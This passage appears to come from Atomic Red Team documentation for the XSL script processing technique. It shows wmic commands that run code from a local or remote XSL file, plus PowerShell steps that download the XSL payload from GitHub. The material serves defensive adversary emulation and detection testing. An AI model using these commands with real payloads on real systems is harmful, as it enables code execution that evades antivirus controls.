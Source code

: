 #### Attack Commands: Run with `command_prompt`!

```cmd
wmic #{wmic_command} /FORMAT:"#{local_xsl_file}"
```

#### Dependencies:  Run with `powershell`!

##### Description: XSL file must exist on disk at specified location (#{local_xsl_file})

##### Check Prereq Commands:

```powershell
if (Test-Path #{local_xsl_file}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{local_xsl_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1220/src/wmicscript.xsl" -OutFile "#{local_xsl_file}"
```

<br/>
<br/>

## Atomic Test #4 - WMIC bypass using remote XSL file

Executes the code specified within a XSL script using a remote payload. Open Calculator.exe when test sucessfully
executed, while AV turned off.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| wmic_command | WMI command to execute using wmic.exe | string | process list|
| remote_xsl_file | Remote location of an XSL payload. | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1220/src/wmicscript.xsl|

#### Attack Commands: Run with `command_prompt`!

```cmd
wmic #{wmic_command} /FORMAT:"#{remote_xsl_file}"
```

<br/>
